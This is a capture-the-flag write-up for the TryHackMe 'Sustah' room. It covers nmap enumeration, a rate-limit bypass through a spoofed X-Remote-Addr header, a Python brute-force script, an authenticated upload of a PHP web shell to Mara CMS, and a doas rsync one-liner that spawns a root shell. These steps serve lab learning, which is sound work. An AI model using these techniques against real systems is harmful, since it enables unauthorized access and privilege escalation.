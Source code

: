 # [Sustah](https://tryhackme.com/room/sustah) TryHackMe Wirteup


![](images/BoxImage.jpeg)


## __First Stage : Enumeration__


So as usual let's fire up nmap.


```
# Nmap 7.91 scan initiated Sat Jan 30 13:48:26 2021 as: nmap -sC -sV -T4 -vv -p- -oN nmapscan 10.10.95.49
Warning: 10.10.95.49 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.10.95.49
Host is up, received syn-ack (0.16s latency).
Scanned at 2021-01-30 13:48:27 IST for 877s
Not shown: 65531 closed ports
Reason: 65531 conn-refused
PORT     STATE    SERVICE REASON      VERSION
22/tcp   open     ssh     syn-ack     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 bd:a4:a3:ae:66:68:1d:74:e1:c0:6a:eb:2b:9b:f3:33 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC7zuGtMGKQdFrh6Y8Dgwdo7815klLm7VzG05KNvT112MyF41Vxz+915iRz9nTSQ583i1cmjHp+q+fMq+QGiO0iwIdYN72jop6oFxqyaO2ZjBE3grWHSP2xMsTZc7qXgPu9ZxzVAfc/4mETA8B00yc6XNApJUwfJOYz/qt/pb0WHDVBQLYesg+rrr3UZDrj9L7KNFlW74mT0nzace0yqtcV//dgOMiG8CeS6TRyUG6clbSUdr+yfgPOrcUwhTCMRKv2e30T5naBZ60e1jSuXYmQfmeZtDZ4hdsBWDfOnGnw89O9Ak+VhULGYq/ZxTh31dnWBULftw/l6saLaUJEaVeb
|   256 9a:db:73:79:0c:72:be:05:1a:86:73:dc:ac:6d:7a:ef (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBENNM4XJDFEnfvomDQgg0n7ZF+bHK+/x0EYcjrLP2BGgytEp7yg7A36KajE2QYkQKtHGPamSRLzNWmJpwzaV65w=
|   256 64:8d:5c:79:de:e1:f7:3f:08:7c:eb:b7:b3:24:64:1f (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOd1NxUo0xJ3krpRI1Xm8KMCFXziZngofs/wjOkofKKV
80/tcp   open     http    syn-ack     Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Susta
1472/tcp filtered csdm    no-response
8085/tcp open     http    syn-ack     Gunicorn 20.0.4
| http-methods: 
|_  Supported Methods: HEAD POST GET OPTIONS
|_http-server-header: gunicorn/20.0.4
|_http-title: Spinner
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jan 30 14:03:04 2021 -- 1 IP address (1 host up) scanned in 878.90 seconds
```

So the ports that which are open :

* 22
* 80
* 1472
* 8085

Let's visit port 80.


![](images/port80.png)




I ran gobuster and nikto got nothing interesting.


Hence I visited 8085 .


![](images/port8085.png)



So we have to guess the number in order to get the path.

I used burp to intercept the request.

And I tried bruteforcing the numbers but after sometime there was a limit which was stopping from bruteforcing.


Hence I searced "bypassing rate limits" and found this blog in [HackTricks](https://book.hacktricks.xyz/pentesting-web/rate-limit-bypass) and tried this header **X-Remote-Addr: 127.0.0.1** and it worked.

So I sent it to intruder and set the payload from **10000** to **99999** step 1.


After sometime I understood that it is taking long to complete , hence I created a python script to do this fast.


``` python
import requests
import sys
import re
url = "http://10.10.95.49:8085/"

sess = requests.session()
for number in range(10000,99999):
   header_data= {"X-Remote-Addr" : "127.0.0.1"}
   data = {"number" : number}
   output = sess.post(url, headers = header_data, data = data)
   if "rate limit exceeded" in output.text:
        print("limit exceeded")
   elif "Oh no! How unlucky. Spin the wheel and try again." in output.text:
        pass
   else:
        print(f"[+]The number is {number}")
        sys.exit(0)

```
Hence I ran the script and got the number.

![](images/number.png)


After we enter the number we got it gives us the directory.

> Note : the cms is in port 80


## __Second Stage : Initial access as www-data__
Hence we visit it

![](images/path.png)



So the name of cms is **MARA**

Hence I search for exploits using searchsploit and found this.

![](images/exploit.png)



So there is an  authenticated RCE , but we don't know the password. I tried the password given in exploit and it worked.


![](images/admin.png)



As given in the exploit we go to **http://target/codebase/dir.php?type=filenew**

![](images/uploading.png)





And upload our shell.php.


We get this message.


![](images/uploaded.png)


Hence we start a listener.

Go to 

>http://target/img/shell.php



We get a shell.


![](images/wwwdata.png)



## __Fourth Stage : www-data to kiran__


I ran linpeas and got some hashes in **/var/www/html/sitecfg**


But they were a dead end, hence I saw the hint . So I went for /var/backups directory.


![](images/passwd.png)



I found the password in **.bak.passwd**


Now we get shell as __kiran__


## __Fifth Stage : kiran to root__


As soon as I ran linpeas this got my eyes.



![](images/doas.png)


So I searched for rsync in [GTFOBINS](https://gtfobins.github.io/gtfobins/rsync/) . In order to get root .



> doas rsync -e 'sh -c "sh 0<&2 1>&2"' 127.0.0.1:/dev/null

And got root.


![](images/root.png)








